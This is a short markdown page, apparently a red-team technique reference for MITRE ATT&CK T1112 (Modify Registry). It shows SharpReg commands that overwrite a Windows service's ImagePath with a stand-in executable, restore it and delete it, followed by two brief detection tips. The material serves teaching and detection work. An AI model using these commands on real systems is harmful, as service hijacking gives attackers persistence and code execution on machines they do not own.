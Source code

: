 # [Modify Registry](https://attack.mitre.org/techniques/T1112/)

## Exploit Description:
Adversaries may interact with the Windows Registry to hide configuration information within Registry keys, remove information as part of cleaning up, or as part of other techniques to aid in persistence and execution.

## Exploit syntax:

```powershell
# Example of querying 

sharpreg query HKLM\SYSTEM\CurrentControlSet\services\gupdatem | poshgrep ImagePath 

# Here we change the key that we just queried above. We notated what it was before we make changes

sharpreg create HKLM\SYSTEM\CurrentControlSet\Services\gupdatem EXPAND_SZ ImagePath "C:\Windows\WinSxS\x86_microsoft-windows-calc_31bf3856ad364e35_10.0.14393.0_none_7b13d13279112b2e\calc.exe"

# If necessary, you may change the key back to its original state:

sharpreg create HKLM\SYSTEM\CurrentControlSet\Services\gupdatem EXPAND_SZ ImagePath "\"C:\Program Files\Google\Update\GoogleUpdate.exe\" /medsvc"

# Also possible to just outright delete a key

sharpreg delete HKLM\SYSTEM\CurrentControlSet\Services\gupdatem ImagePath

```

## Detection Technique:
* Investigate any reg command. Reg is for registry querying and manipulation
* Event ID 4657 is made when the registry is modified

## Resources
https://github.com/jnqpblc/SharpReg

https://malware.news/t/introducing-poshc2-v8-0/58825
